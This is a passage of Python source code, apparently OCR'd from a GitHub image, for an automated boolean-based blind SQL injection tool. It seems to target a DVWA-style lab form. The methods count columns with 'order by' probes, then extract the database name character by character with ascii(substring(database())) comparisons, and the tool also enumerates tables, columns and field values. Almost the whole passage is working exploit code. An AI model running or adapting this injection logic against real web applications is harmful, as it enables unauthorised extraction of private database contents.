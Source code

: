 ```python
        self.column_length = []
        self.column_name = []
        self.get_column_length(table_name)
        self.get_column_name(table_name)
        column_names = input('[-] column_name: ').split(',')
        self.word_num = 0
        self.get_word_num(table_name,column_names[0])
        self.word_name = []
        self.word_length = []
        for i in range(len(column_names)):
            print(column_names[i])
            self.get_word_length(table_name,column_names[i])
            self.get_word_name(table_name,column_names[i],i)
        
    def get_itsnum(self):
        self.itsnum = 0
        for i in range(1,50):
            self.process('get_itsnum',i,50)
            theurl = self.url + "1' order by {0}%23".format(str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if not self.check(html):
                self.itsnum = i - 1
                break
        if self.itsnum > 0:
            print('\n==>',self.itsnum)
        else:
            print("\ncan not get the itsnum")
    def get_database_length(self):
        self.database_length = 0
        for i in range(1,30):
            self.process('get_database_length',i,30)
            theurl = self.url + "1' and length(database())={0}%23".format(str(i)) + "&Submit=Submit#"
            html = self.s.get(theurl,headers=self.headers).text
            if self.check(html):
                self.database_length = i
                break
        if self.database_length > 0:
            print('\n==>',self.database_length)
        else:
            print("\ncan not get the database_length")
    def get_database(self):
        self.database = ''
        for i in range(1,self.database_length+1):
            for j in self.zifuji:
                self.process(str(i) + ' get_database',j,self.database_length+1)
                theurl = self.url + "1' and ascii(substring(database(),{0},1))={1}%23".format(str(i),str(j)) + "&Submit=Submit#"
                html = self.s.get(theurl,headers=self.headers).text
                if self.check(html):
                    self.database += chr(j)
                    break
            if len(self.database) != i:
                self.database += '666'
        if len(self.database) > 0:
            print('\n==>',self.database)
        else:
            print("\n can not get the database")
    def get_table_num(self):
        self.table_num = 0
        for i in range(1,30):
            self.process('get_table_num',i,30)
```